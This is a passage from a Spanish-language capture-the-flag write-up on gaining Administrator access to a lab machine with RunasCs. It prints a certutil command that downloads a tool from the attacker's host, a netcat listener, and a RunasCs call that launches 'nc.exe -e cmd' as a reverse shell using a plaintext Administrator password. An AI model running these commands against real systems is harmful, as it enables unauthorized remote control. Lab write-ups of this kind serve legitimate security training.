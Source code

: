 <br>

<h2 id="RunasCs">Ganando Acceso a la Máquina Víctima como Administrador Usando RunasCs</h2>

Podríamos mandarnos una sesión remota de **PowerShell** para conectarnos como el **Administrador**, pero tenemos una opción mejor, que es usar la herramienta **RunasCs**.

La puedes descargar en el siguiente link:
* <a href="https://github.com/antonioCoco/RunasCs" target="_blank">Repositorio de AntonioCoco: RunasCs</a>

Esta herramienta nos permite ejecutar acciones como cualquier usuario, solamente dando el nombre del usuario, la credencial y el comando a ejecutar.

Nos servirá para mandarnos una sesión de **Administrador** a un listener, tal y como lo hicimos con el binario **nc.exe**.

Una vez que la descargues, envíala a la máquina víctima levantando un servidor con **python3** y usando **certutil**:
```batch
C:\Temp>certutil.exe -urlcache -split -f http://Tu_IP/RunasCs.exe RunasCs.exe
...
CertUtil: -URLCache command completed successfully.
```

Levanta un listener con **rlwrap** y **netcat**:
```bash
rlwrap nc -nlvp 1337
listening on [any] 1337 ...
```

Aprovechando que tenemos el binario **nc.exe**, usa **RunasCs.exe** para que ejecute el binario **nc.exe** y envíe una sesión a nuestro listener:
```batch
C:\Temp>RunasCs.exe Administrator Th1s889Rabb!t "C:\Temp\nc.exe -e cmd Tu_IP 1337" -t 0
RunasCs.exe Administrator Th1s889Rabb!t "C:\Temp\nc.exe -e cmd Tu_IP 1337" -t 0

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-53d73$\Default
[+] Async process 'C:\Temp\nc.exe -e cmd Tu_IP 1337' with pid 712 created in background.
```

Observa la **netcat**:
```batch
rlwrap nc -nlvp 1337
listening on [any] 1337 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.11.90] 56968
Microsoft Windows [Version 10.0.17763.7309]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
signed\administrator
```
Excelente, tenemos la sesión como **Administrador**.

Obtengamos la última flag:
```batch
C:\Windows\system32>cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>type root.txt
type root.txt
...
```
Y con esto, terminamos la máquina.
